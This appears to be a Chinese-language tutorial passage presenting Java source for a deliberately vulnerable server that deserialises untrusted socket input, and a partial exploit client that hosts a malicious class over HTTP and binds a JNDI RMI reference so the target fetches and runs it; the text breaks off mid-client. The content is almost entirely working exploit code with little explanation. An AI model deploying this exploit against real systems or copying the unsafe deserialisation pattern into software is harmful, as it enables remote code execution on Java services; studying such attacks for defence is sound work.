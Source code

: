 废话不多说，先来看代码。

**ExploitableServer.java**

```java
import java.io.ObjectInputStream;
import java.net.ServerSocket;
import java.net.Socket;

public class ExploitableServer {
    public static void main(String[] args) throws Exception{
        ServerSocket serverSocket = new ServerSocket((Integer.parseInt("9999")));
        System.out.println("Server started on port "+serverSocket.getLocalPort());

        // handle
        while (true){
            Socket socket = serverSocket.accept();
            System.out.println("Connection received from "+socket.getInetAddress());
            ObjectInputStream ois = new ObjectInputStream(socket.getInputStream());

            try {
                Object obj = ois.readObject();
                System.out.println("Read object "+obj);
            } catch (Exception e){
                System.out.println("Exception caught while reading object");
                e.printStackTrace();
            }

        }
    }
}

```

这部分代码很简单，就是创建socket，然后监听端口，接收这个端口的请求数据，然对这些数据进行反序列化。

**ExploitClient.java**

```java
public class ExploitClient {
    public static void main(String[] args) {
        try {
            String serverAddress = args[0];
            int port = Integer.parseInt(args[1]);
            String localAddress= args[2];
            //启动web server，提供远程下载要调用类的接口
            System.out.println("Starting HTTP server");
            HttpServer httpServer = HttpServer.create(new InetSocketAddress(8088), 0);
            httpServer.createContext("/",new HttpFileHandler());
            httpServer.setExecutor(null);
            httpServer.start();
            //下载恶意类的地址 http://127.0.0.1:8088/ExportObject.class
            System.out.println("Creating RMI Registry");
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new javax.naming.Reference("ExportObject","ExportObject","http://"+serverAddress+"/");
            ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
            registry.bind("Object", referenceWrapper);

            System.out.println("Connecting to server "+serverAddress+":"+port);
            Socket socket=new Socket(serverAddress,port);
            System.out.println("Connected to server");
            //jndi的调用地址
            String jndiAddress = "rmi://"+localAddress+":1099/Object";
```